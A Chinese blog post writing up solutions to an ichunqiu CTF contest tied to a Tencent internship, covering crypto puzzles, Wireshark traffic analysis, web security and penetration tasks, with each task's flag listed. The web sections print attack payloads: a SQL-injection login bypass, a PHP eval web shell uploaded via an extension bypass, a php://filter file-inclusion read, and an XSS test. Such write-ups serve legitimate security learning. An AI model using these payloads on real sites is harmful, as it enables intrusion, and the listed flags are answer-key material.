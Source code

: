 ```yaml
---
layout: post
title: ichunqiu腾讯实习三十强竞赛部分题目题解
tags:
- Writeup
categories: Writeup
description: ichunqiu腾讯实习三十强竞赛部分题目题解
---
```


此次比赛前期在ichunqiu上学习21天，然后比赛，最终前三十可以去腾讯总部培训，然而我第三十一名

<!-- more -->
###基础题：
####1. flag{a2714506-b3e2-417d-bac9-e8d078ed4d96}
   直接查看源码
   
####2. flag{455ec542-5f3e-4cd6-beb0-26a5e67338fe}
  直接查看源码
  
####3. flag{77f9eb43-9aeb-4502-af45-c590034d9ea9}
   源码中发现一个关键的js链接`http://106.75.8.230:18255/js/5.js`，[在线运行](https://jsfiddle.net/)一下，注意将eval换成alert，得到弹窗代码`function aaa(){eval("32:64:39:30:61:39:30:38:31:63:62:38:64:61:63:38:61:64:65:65:61:34:63:33:61:66:30:33:34:39:32:61")}`，将十六进制数转成ascii码，得到`2d90a9081cb8dac8adeea4c3af03492a`，再md5解密得到`zf651q`
    
####4. flag{52bab258-a1a6-46c3-b621-f6e251484a1f}
   源码给出了一串unicode编码字符串`&#102;&#108;&#97;&#103;&#123;&#53;&#50;&#98;&#97;&#98;&#50;&#53;&#56;&#45;&#97;&#49;&#97;&#54;&#45;&#52;&#54;&#99;&#51;&#45;&#98;&#54;&#50;&#49;&#45;&#102;&#54;&#101;&#50;&#53;&#49;&#52;&#56;&#52;&#97;&#49;&#102;&#125;`，[在线解密](http://tool.chinaz.com/tools/unicode.aspx)得到flag
        
####5. flag{dd97563d-e256-4b08-b5cb-a86ea77ade4f}
   源码得到两个字符串分别base64解密后填入登陆框即可
        pass='MWMzNmNkNTI=';           --》1c36cd52
        pass1='NDFiNzczNWVlZmRj';      --》41b7735eefdc 

        
###加密解密
####1. flag{91b19e02-4fb7-45b6-a59b-4edac2b1d2ad}
   凯撒加密13位（也叫ROT-13加密）
        
####2. flag{9b8eaec9-e46c-438c-81f8-b39e45c4b490}
 4d1e3cbl10c094e4f7c704232956bc34 （md5中0-9a-zA-Z）第八位是L的小写有错，换成数字1
        4d1e3cb110c094e4f7c704232956bc34 --> 企鹅

####3. flag{7eef569a-0e3a-4036-9965-22830e250eae}
        import base64
        str = "6ZWc6Iqx5_C05pyI"
        for x in range(1,128):
            str = str[:9] + chr(x) + str[10:]
            try:
                    #print base64.b64decode(str)
                    print str
            except:
                    pass
   然后用burp爆破
   结果6ZWc6Iqx5rC05pyI 

#### 4. flag{faa8b1fd-0834-47fe-a019-3f6ab36ef510}
   培根密码
        我<i>年</i>轻时<i>注</i>意到，<i>我</i>每做十<i>件事</i>有九件<i>不成</i>功，于是我就十倍<i>地</i>去努力干下去。—— 萧<i>伯纳</i>
    直体对应A ，斜体对应B
    ABAAB AABAA ABBAA ABBAA AAAAA BAAAA AAABB  -->  kennard

    
###流量分析
####1. flag{@G00d_L4ck_H3r3@}
   wireshark过滤器输入：(data-text-lines and frame.len > 312 and ip.src == 192.168.40.42) or (ip.src == 192.168.169.130 and http and frame.len > 78)可以看到对话内容
        保存upload的文件，扣出图片，然后打开，在昆明那儿有flag

####2. flag{你自己看着办}
   导出倒数第三个包，记事本打开就能看见flag
        
####3. flag{6c0d68b0-c638-4fb5-a8f5-fdc756daf7e0}
   过滤器输入：http
   导出最后一个http数据包，打开就能看见flag

###Web安全
####1. flag{76c78577-6e75-420d-8837-a44613bb5f3a}
 万能密码登陆 `root' or '1=1#`，然后进入flag目录读取flag
        
####2. flag{f6a5f550-4c06-435c-ae9a-8ef489386af6}
 上传绕过，选择一个图片上传，抓包，把图片名称改为   xx.pHp5， 内容为 <?php @eval($_POST[value]);?>
        
####3. flag{2d33a69d-411f-411a-8da4-238c8adeb4fb}
在url后面加上 /gift.rar 开始下载 gift.rar， flag在rar中
    
####4. flag{44f49248-d10e-40c0-976a-3b45b184f04e}
用dirsearch 扫描目录得到sql.sql文件存在，访问得到flag    `http://106.75.8.230:10211/sql.sql`
       

###渗透测试
####1. flag{7450e858-38f5-4d31-83c2-37d8c8e5792d}
原题http://bbs.ichunqiu.com/thread-1821-1-1.html
    
####2. flag{7733138d-8f8e-4c42-b4c1-5e3e003f6502} 
把cookie改成admin1的md5值
        
####3. flag{3b456e00-954b-4290-92eb-966e38750477}
乱码提示flag、php、file，于是通过filter读取文件源码，`/index.php?file=php://filter/convert.base64-encode/resource=index.php`，得到的base64解密得到
```
>>> s1 = "PD9waHAgaW5jbHVkZSgkX0dFVFsnZmlsZSddICk7ID8+IA0K1dK1vbWxx7DOxLz+vNDPwrXEZmxhZ87EvP6jqHBocKOpo6zOxLz+w/vOqjTOu8r919a1xGZpbGU="
>>> print base64.b64decode(s1)
	<?php include($_GET['file'] ); ?>找到当前文件夹下的flag文件（php），文件名为4位数字的file
```        
爆破四位数字名字的文件得到1234.php,`/index.php?file=php://filter/convert.base64-encode/resource=1234.php`，得到结果解密得<?php //flag{3b456e00-954b-4290-92eb-966e38750477};?>

####4. flag{c0a8ed72-7af9-4444-a880-47b8f444b9d4}
        输入框xss，输入<script>alert(/xss/)</script>